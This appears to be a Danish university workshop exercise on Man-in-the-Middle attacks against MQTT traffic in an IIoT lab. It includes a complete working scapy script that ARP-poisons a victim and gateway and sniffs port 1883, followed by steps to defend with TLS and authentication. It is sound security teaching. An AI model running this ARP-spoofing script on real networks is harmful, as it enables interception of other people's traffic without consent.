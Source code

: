 # 📝 Workshop 3: Ekstra Øvelse - Man-in-the-Middle via Netværk

## 🌟 Formål
I denne ekstra øvelse skal I simulere et ægte **Man-in-the-Middle (MITM)** angreb i et IIOT-miljø. Formålet er at forstå, hvordan ubeskyttede datastrømme kan opsnappes og manipuleres, samt hvordan vi beskytter os med TLS og adgangskontrol.

---

## 📊 Struktur og roller

| Rolle | Beskrivelse |
|:------|:------------|
| Studerende A (Angriber) | Udfører ARP spoofing og sniffer MQTT-trafik |
| Studerende B (Offer) | Kører Node-RED flow der sender MQTT-data |


## 📖 Regler og etik
- Kun på lukkede netværk (labnet, privat subnet).
- Kun mod frivillig medstuderende.
- Ingen forstyrrelser af andre systemer eller internettrafik.
- Alt MITM-aktivitet stoppes efter øvelsen.

---

## 🔄 Praktisk (step-by-step)

### 1. Opsæt offer (Studerende B)
- Kør Node-RED flow:
  - En sensor sender data via MQTT til broker.
  - Dashboard viser live data.

### 2. Få IP-adresser
- Studerende A får IP-adressen på Studerende B og gatewayen.

### 3. Kør MITM-script (Studerende A)
- Kør Python-script med scapy:
  - ARP spoofing mod offer og gateway.
  - Sniff MQTT-trafik (port 1883).

**Python script (mitm_sniffer.py):**
```python
from scapy.all import *
import threading
import time

# Parametre
target_ip = "192.168.1.20"
gateway_ip = "192.168.1.1"
interface = "eth0"

def get_mac(ip):
    ans, _ = sr(ARP(pdst=ip), timeout=2, verbose=0)
    if ans:
        return ans[0][1].hwsrc
    else:
        return None

def arp_poison(target_ip, target_mac, gateway_ip, gateway_mac):
    poison_target = ARP(op=2, pdst=target_ip, psrc=gateway_ip, hwdst=target_mac)
    poison_gateway = ARP(op=2, pdst=gateway_ip, psrc=target_ip, hwdst=gateway_mac)
    while True:
        send(poison_target, verbose=0)
        send(poison_gateway, verbose=0)
        time.sleep(2)

def sniff_packets():
    sniff(iface=interface, filter="port 1883", prn=process_packet)

def process_packet(packet):
    if packet.haslayer(TCP) and packet.haslayer(Raw):
        print(f"Intercepted packet: {packet[Raw].load}")

if __name__ == "__main__":
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)

    if not target_mac or not gateway_mac:
        print("MAC address resolution failed.")
        exit(1)

    poison_thread = threading.Thread(target=arp_poison, args=(target_ip, target_mac, gateway_ip, gateway_mac))
    poison_thread.start()

    print("Started ARP poisoning... Sniffing packets now.")
    sniff_packets()
```

**Installation:**
```bash
pip install scapy
sudo python3 mitm_sniffer.py
```

### 4. Observer opsnappede data
- Studerende A kan se beskeder sendt af Studerende B i terminalen.

### 5. Diskuter truslen
- Hvad kunne en angriber gøre?
- Hvad er konsekvensen af åben MQTT-trafik?

### 6. Implementér beskyttelse
- Studerende B sikrer MQTT-flow:
  - Aktivér TLS på MQTT broker og klient.
  - Opsæt brugernavn og adgangskode.

### 7. Test igen
- Studerende A forsøger MITM igen.
- Trafik er nu krypteret og uforståelig (beskyttet!).

### 8. Dokumentér og aflever
- Lav kort rapport:
  - Hvordan MITM lykkedes uden TLS.
  - Hvordan det mislykkedes med TLS.
  - Refleksion over vigtigheden af datasikkerhed.

---

## 🎉 Læringsudbytte
- Forståelse af MITM i praksis.
- Evne til at identificere sårbarheder i IIOT-systemer.
- Færdigheder i sikring af datastrømme med TLS.

---

# 💡 Tips
- Brug et dedikeret WiFi eller VLAN kun til denne øvelse.
- Brug tcpdump eller Wireshark til at analysere opsnappet trafik.
- Udvid øvelsen med manipulation af data (spoofing).

---
